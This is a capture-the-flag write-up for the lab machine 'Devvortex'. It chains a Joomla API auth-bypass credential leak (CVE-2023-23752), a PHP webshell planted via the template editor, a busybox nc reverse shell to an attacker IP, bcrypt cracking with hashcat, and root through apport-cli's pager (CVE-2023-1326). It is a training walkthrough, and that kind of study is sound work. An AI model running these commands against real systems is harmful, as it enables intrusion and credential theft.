

Devvortex

Recon
Starting with nmap. Only 22 and 80 are open, an nginx site on Ubuntu.
[devvortex] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap devvortex.htb
Nmap scan report for devvortex.htb (10.129.58.2)
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe site on port 80 is a static marketing page for "DevVortex" and points at devvortex.htb, so I added it to /etc/hosts. There is nothing exploitable on the surface, so the next move is to fuzz virtual hosts, which turns up one live subdomain, dev.devvortex.htb.
After adding that to /etc/hosts, content discovery on the subdomain gives away the stack. /htaccess.txt and /administrator/ are the Joomla defaults, and /README.txt pins the version to the 4.2.x branch.
Exploitation
Joomla 4.2.x is vulnerable to CVE-2023-23752 (EDB-51334), an improper access check on the Web Services API. Appending ?public=true to the REST endpoints bypasses authentication and leaks the site configuration, database credentials included.
The users endpoint enumerates the accounts, showing lewis is a Super User:
[devvortex] curl -s 'http://dev.devvortex.htb/api/index.php/v1/users?public=true'
...
"name": "lewis", "username": "lewis", "email": "lewis@devvortex.htb",
"group_names": "Super Users"
...
"name": "logan paul", "username": "logan", "email": "logan@devvortex.htb",
"group_names": "Registered"The application config endpoint is the real prize, it returns the MySQL credentials in cleartext:
[devvortex] curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true'
...
"user": "lewis"
...
"password": "P4ntherg0t1n5r3c0n##"
...
"db": "joomla", "dbprefix": "sd4fg_"The password does not work over SSH, but it does log lewis straight into the Joomla administrator console. With Super User access, the classic Joomla foothold is the template editor: it lets an admin edit raw PHP files served by the site. I opened the Cassiopeia template and dropped a one line webshell into shell.php:
<?php system($_GET['0']);?>The file is now served from the template directory, so it executes commands directly:
[devvortex] curl 'http://dev.devvortex.htb/templates/cassiopeia/shell.php?0=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)Start a listener and trigger a busybox nc reverse shell through the same parameter:
[devvortex] curl 'http://dev.devvortex.htb/templates/cassiopeia/shell.php?0=busybox%20nc%2010.10.15.108%204444%20-e%20/bin/bash'[devvortex] nc -lvnp 4444
www-data@devvortex:/var$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)Post Exploitation
Foothold as www-data. /etc/passwd shows one regular user, logan (uid 1000), so that is the pivot target. The database password from the config leak still belongs to lewis, and MySQL is listening locally, so I logged into the Joomla database and dumped the users table:
www-data@devvortex:/var$ mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
mysql> select username,password from joomla.sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| lewis | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+logan's bcrypt hash cracks in seconds against rockyou.txt:
[devvortex] hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromuchoThat password reuses for the system account, so this is a straight SSH login to the user flag:
[devvortex] ssh logan@devvortex.htb
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:~$ cat ~/user.txtPrivilege Escalation
Checking sudo rights for logan shows one allowed command:
logan@devvortex:~$ sudo -l
User logan may run the following commands on devvortex:
(ALL : ALL) /usr/bin/apport-cliapport-cli is Ubuntu's crash reporting tool, and it is vulnerable to CVE-2023-1326. When it displays a crash report it pipes the output through a pager (less), and because we run it via sudo that pager runs as root. Pagers let you shell out with !, so from inside the report viewer we can execute an arbitrary command as root.
First create an empty crash file so apport-cli has something to open, then run it against that file and choose the option to view the report:
logan@devvortex:~$ touch /var/crash/xxx.crash
logan@devvortex:~$ sudo apport-cli -c /var/crash/xxx.crashAt the prompt pick (V)iew report. That drops into less running as root. From the pager, escape to a command and set the SUID bit on /bin/bash:
!chmod u+s /bin/bashQuit the pager and /bin/bash is now SUID root, so bash -p gives a root shell:
logan@devvortex:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
logan@devvortex:~$ bash -p
bash-5.0# id
uid=1000(logan) gid=1000(logan) euid=0(root) groups=1000(logan)With an effective UID of 0 it is just reading /root/root.txt.